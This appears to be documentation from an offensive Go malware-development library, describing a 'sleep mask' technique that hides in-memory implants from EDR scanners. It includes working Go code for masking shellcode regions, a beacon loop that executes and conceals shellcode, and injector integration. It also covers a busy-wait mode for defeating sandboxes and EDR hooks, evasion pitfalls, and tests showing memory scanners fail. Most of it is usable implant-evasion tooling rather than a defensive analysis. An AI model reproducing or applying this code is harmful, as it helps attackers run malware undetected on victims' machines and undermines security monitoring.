

# Encrypted Sleep (Sleep Mask)

> **MITRE ATT&CK:** T1027 — Obfuscated Files or Information
> **D3FEND:** D3-SMRA — System Memory Range Analysis
> **Detection:** Low · **Platform:** Windows

## Primer

An in-memory implant that stays executable 24/7 is easy to spot. Every EDR that scans process memory at intervals — walking committed pages with `VirtualQueryEx`, filtering for `PAGE_EXECUTE_READ` / `PAGE_EXECUTE_READWRITE`, hashing or YARA-matching the contents — has unlimited attempts to find your shellcode between beacon cycles.

Sleep masking cuts their window to nearly zero. Right before going idle, the implant **flips its own pages off the executable list** (dropping the `X` bit to `PAGE_READWRITE`) and **XOR-scrambles** the bytes under a fresh random key. Anything that scans executable memory during that idle period will not even see the region, let alone match a signature. When the sleep ends, the mask XORs back and restores the original protection, and the implant is ready to run.

This package's `Mask` type is the minimum viable implementation: multi-region, permission-aware, fresh key per cycle, two selectable sleep implementations. The e2e tests in [`sleepmask_e2e_windows_test.go`](../../../evasion/sleepmask/sleepmask_e2e_windows_test.go) run a real concurrent memory scanner during `Sleep()` and assert it finds nothing.

## How It Works



**Step-by-step:**

1. **Generate key** — 32 random bytes from `crypto/rand`.
2. **Downgrade + encrypt** — for each region: `VirtualProtect(PAGE_READWRITE, &origProtect[i])` then XOR the bytes in-place.
3. **Sleep** — `time.Sleep` (default, `MethodNtDelay`) or trig busy-wait (`MethodBusyTrig`, defeats scheduler-based hooks and sandbox time-acceleration).
4. **Decrypt + restore** — `VirtualProtect(PAGE_READWRITE)` (idempotent), XOR again to decrypt, `VirtualProtect(origProtect[i])` to restore the original bits.
5. **Scrub key** — `cleanup/memory.SecureZero(key)` so the XOR material does not linger on the Go stack.

## Usage

### Minimal: mask a single region

```go
import (
    "time"
    "github.com/oioio-space/maldev/evasion/sleepmask"
)

// shellcodeAddr points at a PAGE_EXECUTE_READ region holding your payload.
mask := sleepmask.New(sleepmask.Region{
    Addr: shellcodeAddr,
    Size: shellcodeLen,
})
mask.Sleep(30 * time.Second) // region is RW + scrambled during these 30s
```

### Multi-region: protect non-contiguous memory

```go
mask := sleepmask.New(
    sleepmask.Region{Addr: shellcode, Size: shellcodeLen},
    sleepmask.Region{Addr: reflectiveDLL, Size: dllSize},
    sleepmask.Region{Addr: configBlock, Size: configLen},
)
mask.Sleep(45 * time.Second)
```

Each region keeps its own original protection. An RX region is restored to RX; an RWX region is restored to RWX. See [`TestSleepMaskE2E_MultiRegionIndependentEncryption`](../../../evasion/sleepmask/sleepmask_e2e_windows_test.go) and [`TestSleepMaskE2E_RestoresOriginalRWXProtection`](../../../evasion/sleepmask/sleepmask_e2e_windows_test.go).

### Choosing the sleep method

```go
mask := sleepmask.New(region).WithMethod(sleepmask.MethodBusyTrig)
```

| Method | Implementation | Defeats | Cost |
|---|---|---|---|
| `MethodNtDelay` (default) | `time.Sleep` → Go runtime → `NtWaitForSingleObject` on a timer | hooks on `kernel32!Sleep`, `SleepEx` | near-zero CPU |
| `MethodBusyTrig` | `evasion/timing.BusyWaitTrig` — CPU-bound trig loop | sandbox time-acceleration, hooks on scheduler waits, any Sleep-class hook | full core busy |

Rule of thumb: default to `MethodNtDelay`. Switch to `MethodBusyTrig` only when you're fighting a sandbox that warps time or an EDR that has hooked every kernel wait primitive — it trades a CPU core for independence from every wait syscall.

### Real beacon loop

```go
package main

import (
    "time"
    "unsafe"

    "golang.org/x/sys/windows"

    "github.com/oioio-space/maldev/evasion/sleepmask"
    "github.com/oioio-space/maldev/inject"
)

func beacon(shellcode []byte) error {
    size := uintptr(len(shellcode))
    addr, err := windows.VirtualAlloc(0, size,
        windows.MEM_COMMIT|windows.MEM_RESERVE, windows.PAGE_READWRITE)
    if err != nil {
        return err
    }
    copy(unsafe.Slice((*byte)(unsafe.Pointer(addr)), len(shellcode)), shellcode)

    var old uint32
    if err := windows.VirtualProtect(addr, size, windows.PAGE_EXECUTE_READ, &old); err != nil {
        return err
    }

    mask := sleepmask.New(sleepmask.Region{Addr: addr, Size: size})

    for {
        // Run your beacon logic: check in, pull tasks, execute, exfil.
        if err := inject.ExecuteCallback(addr, inject.CallbackEnumWindows); err != nil {
            return err
        }
        // Hide while idle.
        mask.Sleep(30 * time.Second)
    }
}
```

### Integrating with inject.SelfInjector

When the shellcode lands via one of the self-process injection methods
(`MethodCreateThread`, `MethodCreateFiber`, `MethodEtwpCreateEtwThread` on
Windows; `MethodProcMem` on Linux), you don't need to allocate or track
the region manually — the injector already did. Type-assert the returned
`Injector` to `inject.SelfInjector` and pull the region directly into the
mask:

```go
inj, err := inject.NewWindowsInjector(&inject.WindowsConfig{
    Config:        inject.Config{Method: inject.MethodCreateThread},
    SyscallMethod: wsyscall.MethodIndirect,
})
if err != nil { return err }
if err := inj.Inject(shellcode); err != nil { return err }

self, ok := inj.(inject.SelfInjector)
if !ok { return fmt.Errorf("not a self-process injector") }

r, ok := self.InjectedRegion()
if !ok { return fmt.Errorf("no region published (cross-process method?)") }

mask := sleepmask.New(sleepmask.Region{Addr: r.Addr, Size: r.Size}).
    WithMethod(sleepmask.MethodBusyTrig)

for {
    // beacon work...
    mask.Sleep(30 * time.Second)
}
```

The `SelfInjector` contract: returns `(Region{}, false)` before the first
successful `Inject`, after a failed `Inject`, or when the method is
cross-process (CRT / APC / EarlyBird / ThreadHijack / Rtl / NtQueueApcThreadEx).
Decorators (`WithValidation`, `WithCPUDelay`, `WithXOR`) and `Pipeline`
forward the region transparently, so the same pattern works at the end of
any `Chain`. See `docs/techniques/injection/README.md` for the injection
side of the contract.

## Verifying It Works

The e2e suite runs a concurrent `testutil.ScanProcessMemory` — the same loop an EDR uses: `VirtualQuery` every page, filter for `PAGE_EXECUTE_*`, search for a signature — **while** `Mask.Sleep()` is in progress. Key fixtures:

- `testutil.WindowsSearchableCanary` — a 19-byte payload: `xor eax,eax; ret` followed by the ASCII marker `MALDEV_CANARY!!\n`. The marker makes the region trivially findable on an executable page.
- `testutil.ScanProcessMemory(marker)` — walks every committed region in the process, returns the first hit on an executable page.

The canonical test proves the full contract in one shot:

```go
// From sleepmask_e2e_windows_test.go
func TestSleepMaskE2E_DefeatsExecutablePageScanner(t *testing.T) {
    payload := testutil.WindowsSearchableCanary
    addr, cleanup := allocAndWriteRX(t, payload) // allocs + flips to PAGE_EXECUTE_READ
    defer cleanup()

    // Baseline: findable before masking.
    marker := []byte("MALDEV_CANARY!!\n")
    _, ok := testutil.ScanProcessMemory(marker)
    require.True(t, ok, "baseline scan must find canary before masking")

    mask := sleepmask.New(sleepmask.Region{Addr: addr, Size: uintptr(len(payload))})

    // Concurrent scanner during the sleep.
    var scanHits, scanAttempts int32
    stopScan := make(chan struct{})
    scanDone := make(chan struct{})
    go func() {
        defer close(scanDone)
        for {
            select {
            case <-stopScan: return
            default:
            }
            atomic.AddInt32(&scanAttempts, 1)
            if _, hit := testutil.ScanProcessMemory(marker); hit {
                atomic.AddInt32(&scanHits, 1)
            }
            time.Sleep(5 * time.Millisecond)
        }
    }()

    mask.Sleep(300 * time.Millisecond)
    close(stopScan); <-scanDone

    assert.Zero(t, atomic.LoadInt32(&scanHits),
        "concurrent scanner must NOT find canary during masked sleep")
    assert.Greater(t, atomic.LoadInt32(&scanAttempts), int32(5),
        "scanner must have run several passes during the sleep")

    _, ok = testutil.ScanProcessMemory(marker)
    assert.True(t, ok, "canary must be findable again after sleep returns")
}
```

The full suite (all run on a real Win10 VM via `scripts/vm-run-tests.sh`):

| Test | What it proves |
|---|---|
| `TestSleepMaskE2E_DefeatsExecutablePageScanner` | ~60 concurrent scans during a 300 ms sleep, zero hits. Scan finds the canary before and after. |
| `TestSleepMaskE2E_RestoresOriginalRXProtection` | Mid-sleep `VirtualQuery` reports `PAGE_READWRITE`; post-sleep reports `PAGE_EXECUTE_READ`. |
| `TestSleepMaskE2E_RestoresOriginalRWXProtection` | An RWX region stays RWX after the cycle (not collapsed to RX). |
| `TestSleepMaskE2E_MultiRegionIndependentEncryption` | Two distinct markers, each region scrambled mid-sleep, both bytes restored. |
| `TestSleepMaskE2E_BeaconLoopStableAcrossCycles` | 10 back-to-back cycles; bytes and protection unchanged after every cycle. |
| `TestSleepMaskE2E_BusyTrigAlsoDefeatsScanner` | `MethodBusyTrig` gives the same scanner-defeating guarantee as the default. |

Run locally:

```bash
./scripts/vm-run-tests.sh windows "./evasion/sleepmask/..." "-v -count=1 -run TestSleepMaskE2E"
```

## Common Pitfalls

**Order-of-operations matters.** The region under protection is almost always `PAGE_EXECUTE_READ` after a typical injection sequence. Writing the XOR pass **before** the `VirtualProtect(RW)` will raise `STATUS_ACCESS_VIOLATION` on the first byte. The sleep mask consistently `VirtualProtect`s first, then XORs. If you extend this package, preserve that order. (This was historically a bug; the added e2e test `TestSleepMaskE2E_RestoresOriginalRXProtection` pins the behavior.)

**The mask code itself is unencrypted.** Code paths executing `Mask.Sleep` — the XOR loop, the VirtualProtect calls, the timer — must stay executable. You cannot mask the mask. Treat it as a small scannable kernel; keep it short, keep it varied if possible, and don't register its own `.text` as a region.

**The key is on the stack during sleep.** `Mask.Sleep` zeroes the key via `cleanup/memory.SecureZero` only after the region is decrypted. During the sleep itself the 32-byte key lives on the Go stack frame of `Sleep`. A targeted memory dump timed exactly mid-sleep could recover it and undo the protection. If that matters, consider `cleanup/memory.DoSecret` (Go 1.26+ `GOEXPERIMENT=runtimesecret` path) to wrap the whole cycle — see `docs/techniques/cleanup/memory-wipe.md`.

**Very short sleeps cost more than they hide.** Below ~50 ms the VirtualProtect + XOR round-trip becomes a measurable fraction of the "sleep", and you've traded scanner-visibility for API-call-volume visibility. Sleep mask pays off when the idle interval is comfortably longer than the encrypt/decrypt cycle.

**`MethodNtDelay` still goes through the kernel.** Go's `time.Sleep` on Windows is implemented via a timer object. Any EDR hooking `NtWaitForSingleObject` or the scheduler will observe the wait — it won't see the XOR'd memory, but it will see you sleeping. Use `MethodBusyTrig` if you specifically need to avoid any wait syscall.

## Comparison

| Feature | maldev/sleepmask | Cobalt Strike BOF sleep_mask | Sliver sleep mask |
|---|---|---|---|
| Cipher | repeating-key XOR (32 bytes, fresh per sleep) | XOR (historically); tunable via BOF | AES |
| Permission downgrade | yes, per-region, original restored | yes | yes |
| Multi-region | yes | generally one | generally one |
| Busy-wait alternative | `MethodBusyTrig` | no (BOF-replaceable) | no |
| Key zeroing | yes (`SecureZero`) | varies by BOF | yes |
| Self-encryption | no (limitation) | no | no |

## API Reference

```go
// Region is one memory window to protect during sleep.
type Region struct {
    Addr uintptr
    Size uintptr
}

// SleepMethod selects how the wait is performed (not how memory is protected).
type SleepMethod int
const (
    MethodNtDelay  SleepMethod = iota // time.Sleep (Go runtime → NtWaitForSingleObject)
    MethodBusyTrig                    // evasion/timing.BusyWaitTrig (CPU burn)
)

// New creates a Mask covering the given regions. Default method: MethodNtDelay.
func New(regions ...Region) *Mask

// WithMethod overrides the sleep method. Returns the receiver for chaining.
func (m *Mask) WithMethod(method SleepMethod) *Mask

// Sleep performs the full encrypt-sleep-decrypt cycle:
//   for each region: VirtualProtect(RW) capture origProtect -> XOR encrypt
//   wait d via the selected method
//   for each region: VirtualProtect(RW) -> XOR decrypt -> VirtualProtect(origProtect)
//   SecureZero the XOR key
// Zero regions or a non-positive d short-circuits.
func (m *Mask) Sleep(d time.Duration)
```
